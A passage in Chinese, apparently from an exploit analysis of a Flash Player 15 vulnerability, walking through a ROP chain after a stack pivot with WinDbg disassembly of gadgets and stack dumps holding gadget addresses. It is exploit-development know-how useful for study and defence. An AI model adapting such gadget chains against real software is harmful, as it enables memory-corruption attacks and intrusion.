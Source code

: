 ![enter image description here](img/img19_u36_png.jpg)

正如我们之前提到的，在 stack pivot 执行前的原始 esp 的值已经被存储在了 eax 中。因此，eax 减小四次，就是在原始栈上开辟出一个四字节。

```
1:021> u eip
Flash32_15_0_0_167+0x1192:
5e861192 59     pop ecx
5e861193 c3 ret 
```

在当前栈上包含下面的数据:

```
1:021> dd esp
070ab088 5e8e2e45 5e89a4ca 41414141 5e8c1478
070ab098 5e8c1478 5e8c1478 5e8c1478 5e861192 
```

通过上面的 ROP gadget，ecx 的值被设置为 0x5e8e2e45，然后

```
1:021> u eip
Flash32_15_0_0_167+0x3a4ca:
5e89a4ca 8908   mov  dword ptr [eax],ecx
5e89a4cc 5d         pop ebp
5e89a4cd c3         ret 
```

这将存储 ecx 的值在原始堆栈上（esp-4 处）
